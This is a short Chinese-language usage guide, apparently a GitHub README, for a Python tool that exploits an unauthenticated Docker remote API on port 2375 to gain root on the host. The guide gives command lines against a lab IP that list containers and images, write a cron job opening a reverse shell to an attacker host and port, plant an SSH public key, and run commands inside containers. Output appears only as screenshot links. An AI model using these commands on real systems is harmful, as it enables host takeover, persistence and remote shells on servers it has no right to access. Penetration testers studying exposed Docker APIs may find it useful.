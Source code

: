 1. 查看所有的容器:
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -a
```
截图：
![图片](https://uploader.shimo.im/f/fc5q0dDF9rgKW41K.png!thumbnail)

1. 查看所有镜像：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -l
```
截图：
![图片](https://uploader.shimo.im/f/uG0wpiXhe5ACEZoH.png!thumbnail)

1. 查看端口映射：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -L
```
截图：
![图片](https://uploader.shimo.im/f/BqkPocBnCMsuxNjc.png!thumbnail)

我这里启动的docker并未映射端口，所以返回空白！

1. 利用脚本写定时任务反弹shell：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -C -i ubuntu:18.04 -H 172.26.1.156 -P 6666
```
截图：
![图片](https://uploader.shimo.im/f/0Q9U5gcB6ncRN2g9.png!thumbnail)

1. 利用脚本写ssh公钥：

编辑脚本

![图片](https://uploader.shimo.im/f/IJQ6pdCUeQUcZOlz.png!thumbnail)

执行脚本：

![图片](https://uploader.shimo.im/f/XKHMirOuvqIve1Rr.png!thumbnail)

登录截图：

![图片](https://uploader.shimo.im/f/5dHIZMtlGsYgQmHD.png!thumbnail)

1. 在容器中执行命令

先获取到容器id：

![图片](https://uploader.shimo.im/f/GhyfkwDcw7A6vueR.png!thumbnail)

然后选取一个容器（需要容器为up状态）进行执行命令：

![图片](https://uploader.shimo.im/f/B4mYwamX1Sk5lvEo.png!thumbnail)
